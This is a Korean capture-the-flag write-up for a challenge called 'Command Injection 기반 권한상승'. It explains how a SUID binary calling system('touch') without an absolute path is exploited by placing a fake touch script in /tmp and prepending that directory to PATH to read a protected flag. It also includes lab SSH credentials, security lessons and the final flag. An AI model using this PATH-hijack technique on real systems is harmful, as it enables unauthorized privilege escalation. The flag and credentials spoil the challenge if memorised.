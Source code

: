 # 문제 29 - Command Injection 기반 권한상승 Challenge Solution

## 문제 설명
SSH를 통해 question29 계정으로 접속한 후, command injection 취약점을 이용하여 권한을 상승시키고 플래그를 찾는 문제입니다.

## 풀이 과정
1. SSH 접속
   - 호스트: ip.firewall-flame.kro.kr
   - 포트: 2226
   - 계정: question30
   - 비밀번호: question30pass

2. 코드 분석
   - question29 파일을 분석하면 다음과 같은 취약점을 발견할 수 있습니다:
   ```c
   sprintf(command, "touch %d", pid);
   system(command);
   ```
   - system() 함수가 'touch' 명령어를 실행할 때 PATH를 검색하는 취약점이 있습니다

3. 권한 상승 실행
   ```bash
   # PATH 인젝션을 위한 디렉토리 생성
   mkdir /tmp/ax
   
   # 가짜 touch 명령어 생성
   echo "cat /home/Challenge29/question29flag/flag.txt" > /tmp/ax/touch
   
   # 실행 권한 부여
   chmod 777 /tmp/ax/touch
   
   # PATH 환경변수 수정하여 실행
   PATH=/tmp/ax:$PATH ./question29
   ```

4. 취약점 설명
   - 프로그램이 절대 경로 없이 'touch' 명령어를 실행함
   - PATH 환경변수를 조작하여 악성 touch 명령어를 실행할 수 있음
   - 프로그램의 SUID 권한으로 인해 flag 파일을 읽을 수 있음

## 사용된 기술
- PATH 환경변수 조작
- Command Injection
- SUID 권한을 이용한 권한 상승
- 시스템 함수 취약점 이용

## 보안 교훈
1. system() 함수 사용 시 명령어의 전체 경로를 지정해야 합니다
2. 환경변수 조작 가능성을 고려해야 합니다
3. SUID 프로그램 작성 시 특별한 주의가 필요합니다
4. 외부 명령어 실행 시 안전한 방법을 사용해야 합니다

## 최종 플래그
```
flag{4368616c6c656e6765666c6167}